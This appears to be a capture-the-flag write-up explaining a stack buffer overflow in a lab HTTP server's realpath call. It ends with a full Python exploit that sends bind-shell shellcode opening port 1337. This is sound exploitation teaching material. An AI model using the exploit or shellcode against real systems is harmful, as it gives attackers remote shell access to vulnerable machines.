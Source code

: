 
This challenge is pretty much a straight forward stack overflow where you are using the fact that when we call real_path:

{% highlight c lineanchors %}
int fix_path(char *path)
{
  char resolved[128];
  
  if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
  strcpy(path, resolved);
}
{% endhighlight %}

our `path` variable's size is controlled by our initial read in `parse_http_request`:

{% highlight c lineanchors %}
  char buffer[1024];
  char* path;
  ...
  if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
  ...
  path = &buffer[4];
  ...
  fix_path(path);
{% endhighlight %}

as our `path` variable is simply a pointer to a location in `buffer` 4 bytes in. So looking up what `realpath` <a title="Realpath" href="http://man7.org/linux/man-pages/man3/realpath.3.html" target="_blank">does</a> we find that it will copy the given `path` string to our `resolved` buffer expanding any relative paths that we might have. `realpath` will also make sure that the file actually exists and if it doesn't it will return `NULL`. So for our sake we really don't care if we can access the `strcpy` because `realpath` will do the same thing for us!

So now that we know what we are targeting, we need to make sure we pass the earlier checks to actually get to this point.

{% highlight c lineanchors %}
  ...
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request"); // Is "GET " the first part of the given string?

  path = &buffer[4];
  q = strchr(path, ' '); // After the "GET " string, is there another space?
  if(! q) errx(0, "No protocol version specified"); // If not, throw an error
  *q++ = 0; // Replace the space with a NULL character so we separate the path and protocol
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol"); // Is the protocol == "HTTP/1.1"?
  ...
{% endhighlight %}

So from this we can deduce our payload is going to be something in the form of `GET <fill buffer><return address>; HTTP/1.1<nop sled><shellcode>;`. You can stick your shellcode in the nop sled but it is up to you :D Since we want $eip to point to our shellcode located some number of bytes away from the start of our buffer, we can start with using the buffer address that get leaked to us by the program and add some offset to get to our nop sled (the nop sled is optional here since we can really just calculate the exact offset but I was too lazy lol). Wiht some playing around in the binary you can find number of bogus characters to fill the buffer to be 139, after the 139th character, you will begin to overwrite the return address :D. Thus we would want our return address would be: buffer address + 139 + a few more to make sure we go past the return address that we stuck in there and onto the nop sled. Putting it all together we get:

{% highlight python lineanchors %}
import sys
from os.path import expanduser
home = expanduser("~")
sys.path.append(home + "/Template")
from isis import *


#Allow time to attach debugger
debug = True
#change for local vs remote exploit
host = "172.16.76.131"
port = 20000

#set up connection and set timeout 
def connect():
	s = get_socket((host,port))
	s.settimeout(0x1000000)
	return s

s = connect()
if debug:
	raw_input("?")

# Shell Bind TCP Shellcode Port 1337 - 89 bytes - http://shell-storm.org/shellcode/files/shellcode-882.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"


fill_buff = "A"*139 + lei(0xbffff8f8 + 170)

payload = "GET "
payload += fill_buff
payload += " HTTP/1.1"
payload += "\x90" * 32
payload += shellcode

s.send(payload)
	
# keeps connection open
telnet_shell(s)
{% endhighlight %}

We then have a shell listening on port 1337 that we can nc into :D

(I used a collection of helper functions from Blankwall's Template library. I encourage you to check it out: ([Github](https://github.com/blankwall/Template))